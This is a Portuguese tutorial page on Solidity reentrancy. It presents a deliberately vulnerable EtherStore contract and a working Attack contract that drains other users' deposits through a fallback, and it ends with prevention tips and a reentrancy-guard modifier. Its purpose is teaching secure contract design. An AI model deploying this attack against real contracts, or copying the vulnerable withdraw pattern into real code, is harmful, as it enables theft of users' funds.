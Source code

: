 # Reentrada

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

Vamos dizer que o contrato`A` chama o contrato `B`.

A exploração de reentrada permite `B` chamar de volta `A` antes que `A` termine a execução.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
EtherStore é um contrato onde você pode depositar e retirar ETH.
Esse contrato é vulnerável a ataque de reentrada.
Vamos ver por quê.

1. Implemente EtherStore
2. Deposite 1 Ether cada da Conta 1 (Alice) e Conta 2 (Bob) na EtherStore
3. Implemente Attack com endereço da EtherStore
4. Chama Attack.attack enviando 1 ether (usando a Conta 3 (Eve)).
   Você obterá 3 Ethers de volta (2 Ether roubados de Alice e Bob,
   mais 1 Ether enviado desse contrato).

O que aconteceu?
Attack foi capaz de chamar EtherStore.withdraw múltiplas vezes antes que
EtherStore.withdraw terminasse de executar.

Aqui está como as funções foram chamadas
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Função Helper para verificar o saldo desse contrato
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback é chamada quando EtherStore envia Ether para esse contrato.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Função Helper para checar o balanço nesse contrato
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

#### Técnicas preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

* Certifique-se  de que todas as mudanças de estado acontecem antes de chamar os contratos externos
* Use modificadores de função que impedem a reentrada

Eis um exemplo de proteção contra reentrada

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
